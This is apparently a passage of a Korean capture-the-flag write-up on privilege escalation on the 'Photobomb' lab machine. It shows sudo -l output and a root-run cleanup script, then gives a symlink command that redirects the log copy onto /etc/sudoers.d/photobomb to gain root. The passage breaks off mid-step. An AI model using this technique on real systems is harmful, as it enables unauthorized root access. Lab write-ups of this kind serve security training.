 # 권한 상승

- 우선, sudo -l을 통해 sudo 권한이 걸린 명령어를 확인해보면 다음과 같은 결과가 출력된다.

~~~shell
wizard@photobomb:~/photobomb$ sudo -l

Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
~~~

- cleanup.sh 파일의 내용은 다음과 같다.

~~~shell
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb



# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
~~~


- cleanup.sh는 photobomb.log에 로깅된 내용이 있으면 photobomb.log.old 파일에 덮어쓰고 photobomb.log는 0 bytes로 trunate한다.

- 그리고 root 유저 권한으로 이 작업들을 실행하므로 덮어쓰고자 하는 파일(photobomb.log.old)에 부여된 파일 권한과 상관없이 이 작업을 수행할 수 있다. (어떤 파일이든 덮어쓸 수 있다.)

- 따라서 sudoers 파일을 조작하기 위해 다음과 같이 심볼릭 링크를 걸어준다. (파일이 이미 존재하면 photobomb.log.old 파일을 삭제한 뒤에 링크를 건다.)

~~~shell
wizard@photobomb:~/photobomb$ ln -s /etc/sudoers.d/photobomb ~/photobomb/log/photobomb.log.old
~~~

- 아래와 같이 심볼릭 링크가 제대로 되었는지 확인한 후에

~~~shell
lrwxrwxrwx 1 wizard wizard 24 Nov  8 02:22 /home/wizard/photobomb/log/photobomb.log.old -> /etc/sudoers.d/photobomb
~~~

- sudo 권한을 부여하기 위한 내용을 photobomb.log 파일에 작성하고
